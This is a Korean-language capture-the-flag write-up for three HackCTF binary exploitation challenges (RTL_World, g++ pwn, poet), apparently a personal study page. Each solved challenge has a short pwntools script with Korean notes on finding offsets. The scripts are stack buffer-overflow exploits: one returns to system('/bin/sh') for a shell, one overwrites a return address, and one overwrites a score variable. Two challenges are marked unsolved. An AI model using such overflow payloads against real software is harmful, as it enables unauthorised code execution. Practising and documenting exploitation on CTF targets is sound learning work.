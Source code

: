 # HACKCTF 
## RTL_World  
~~~python
from pwn import *
r = remote("ctf.j0n9hyun.xyz",3010)
system=0x080485b0
binsh=0x8048eb1

r.recv(1024)
r.sendline("5")
r.recvuntil("[Attack] > ")
payload = 'A'*144+p32(system)+'A'*4+p32(binsh)
r.sendline(payload)
r.interactive()
~~~
우선 nc를 통해 실행시켜봤더니 엄청 복잡하다.
우선 입력할 수 있는 부분을 먼저 찾으니 선택부분과 5번 kill 부분에서 입력 가능하다.
case 5에서는 read 함수로 buf에 입력을 받음으로 여기서 공격이 가능하다.
또한 아이다에서 system 함수의 주소를 얻었다.
system 함수의 인자로 사용될 bin/sh값을 objdump | grep /bin/sh 함수로 찾아준다.
이제 payload를 dummy(144) | system 주소 | ret(4) | binsh 주소 이렇게 구성시켜주면
shell을 얻을 수 있다. 롸이트업을 계속 보고 하게 된다ㅠㅠ
## g++ pwn
~~~python
from pwn import *
r = remote("ctf.j0n9hyun.xyz",3011)
flag=0x08048f0d
payload = 'A'*4 + 'I'*20+p32(flag)
r.sendline(payload)
r.interactive()
~~~
ida를 통해 열어보니 메인 함수에는 vuln 함수만 포함되어 있다. 그리고 get_flag라는 함수의 존재를 알 수 있다.
flag는 이 함수를 통해 얻는다고 예상했다. vuln 함수의 경우에 fgets 함수로 32개를 받으므로 ret까지 도달하지 못하게 되어있다. 
어떻게 풀어야할지 감이 안 잡혀서 wirteup을 보니 replace함수를 이용해야 한다. 
replace 함수는 "I"를 "YOU"로 대체하는데 dummy의 크기를 3배 늘려 버퍼에 복사가능하도록 해준다. 
따라서 dummy 값으로 "I"를 사용하고 ret에는 get_flag의 주소를 집어넣으면 flag를 얻을 수 있다. 
## poet
~~~python
from pwn import *

r=remote("ctf.j0n9hyun.xyz",3012)
point = 999900
payload='A'*64+p32(point)
r.recvuntil("> ")
r.sendline("eat")
r.recvuntil("> ")
r.sendline(payload)

r.interactive()
~~~
푸는 방법이 특이한 문제이다. 개인적으로 lob보다 더 취향에 맞는 거 같다.
nc를 통해 실행시켜보면 enter 부분과 저자 두 부분에 입력이 가능하다.
그리고 점수가 10000이 넘어가게 되면 reward()함수를 통해 flag를 주어진다고 밝혀져있다. 
get_poem에서 unk_6024A0라는 변수가 BSS 영역에 있는 것을 알 수 있다.
unk_6024a0의 주소는 0x6024a0d이다. 이 문제는 점수를  1000000으로 만들어서 flag를 얻어야 한다. 
따라서 문제의 양식에 따라 100점을 얻어주고 point를 999900으로 만들어서 합 1000000을 flag를 얻어낸다. 
점수를 의미하는 변수 dword_6024e0와 0x6024a0의 거리차는 64이므로 
0x6024a0에 64개의 dummy 값과 999900 을 넣어주면 flag가 주어진다.

## 1996
**풀지 못했습니다**
## Random Key
**풀지 못했습니다**
